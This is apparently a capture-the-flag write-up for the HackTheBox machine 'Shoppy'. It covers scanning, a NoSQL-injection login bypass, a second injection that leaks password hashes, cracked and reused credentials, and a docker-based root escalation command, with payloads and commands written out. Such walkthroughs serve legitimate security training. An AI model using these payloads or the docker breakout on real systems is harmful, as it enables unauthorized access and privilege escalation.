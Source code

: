 # Shoppy 

Shoppy is an easy Hackthebox machine


# Recon
```
nmap -sC -sV 10.10.11.180
Starting Nmap 7.93 ( https://nmap.org ) at 2022-11-07 11:49 EST
Nmap scan report for 10.10.11.180
Host is up (0.035s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e5e8351d99f89ea471a12eb81f922c0 (RSA)
|   256 5857eeeb0650037c8463d7a3415b1ad5 (ECDSA)
|_  256 3e9d0a4290443860b3b62ce9bd9a6754 (ED25519)
80/tcp open  http    nginx 1.23.1
|_http-server-header: nginx/1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.91 seconds
```

Port 80 gives a redirect to shoppy.htb. To see the webpage you need to link the ip 10.10.11.180 to shoppy.htb. 
To do this you need to update the /etc/hosts file with the ip address and hostname. Port 22 is also open on hackthebox this isn't a attck vector. 

To scan the webpage for directories and virtual hosts we use gobuster.

``` 
gobuster vhost -u http://shoppy.htb -w /usr/share/wordlists/subdomains.txt
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://shoppy.htb
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/subdomains.txt
[+] User Agent:      gobuster/3.2.0-dev
[+] Timeout:         10s
[+] Append Domain:   false
===============================================================
2022/11/07 11:52:37 Starting gobuster in VHOST enumeration mode
===============================================================
Progress: 4865 / 4998 (97.34%)
===============================================================
2022/11/07 11:52:51 Finished
===============================================================


gobuster dir -u http://shoppy.htb -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://shoppy.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2022/11/07 11:53:16 Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 302) [Size: 28] [--> /login]
/Admin                (Status: 302) [Size: 28] [--> /login]
/ADMIN                (Status: 302) [Size: 28] [--> /login]
/assets               (Status: 301) [Size: 179] [--> /assets/]
/css                  (Status: 301) [Size: 173] [--> /css/]
/exports              (Status: 301) [Size: 181] [--> /exports/]
/favicon.ico          (Status: 200) [Size: 213054]
/fonts                (Status: 301) [Size: 177] [--> /fonts/]
/images               (Status: 301) [Size: 179] [--> /images/]
/js                   (Status: 301) [Size: 171] [--> /js/]
/login                (Status: 200) [Size: 1074]
/Login                (Status: 200) [Size: 1074]
Progress: 4505 / 4615 (97.62%)
===============================================================
2022/11/07 11:53:31 Finished
===============================================================
```

It looks like there are no virtual hosts. There are a couple of directories. /login seems to be interesting. 
When we are logged in with the correct account we have access to /admin page. 

# Foothold

We try if it's vulnerable for SQLi or noSQLi by entering a '. SQL map gives no results. We try for noSQi [hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection) is a good source to try for this.

The query `admin' || ' or 1==1:abc` gives login bypass. This gives access to the admin platform. 

In the search bar we try again for nosqli and it apears that the page crashes when a single quote is entered. The query `a' || ' 1==1 ` gives an export: 

[{"_id":"62db0e93d6d6a999a66ee67a","username":"admin","password":"23c6877d9e2b564ef8b32c3a23de27b2"},
{"_id":"62db0e93d6d6a999a66ee67b","username":"josh","password":"6ebcea65320589ca4f2f1ce039975995"}]

We enter this into hashcat and get the password of josh `josh:remembermethisway`. We try to use this for an ssh connection, this fails. 

In the chat we find that the user jaeger has access to the machine. The password is also shown in the chat `jaeger:Sh0ppyBest@pp!`. 
Now we have ssh access into the machine. 

# Priv esq
We have the password of jaeger so we can check sudo -l.

```
jaeger@shoppy:~$ sudo -l
[sudo] password for jaeger: 
Matching Defaults entries for jaeger on shoppy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User jaeger may run the following commands on shoppy:
    (deploy) /home/deploy/password-manager
```

We have access to the binary password-manager with sudo rights. Strings shows that the binary reads /home/deploy/creds.txt.
We analyse the binary using r2 we find Sample as the password tha manager needs. Now we have the credentials `deploy:Deploying@pp!`.

Now we use docker to get root access. We lookup docker on [gtfobins](https://gtfobins.github.io/gtfobins/docker/) and this gives us the command `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`.

Now we have root access to the machine.









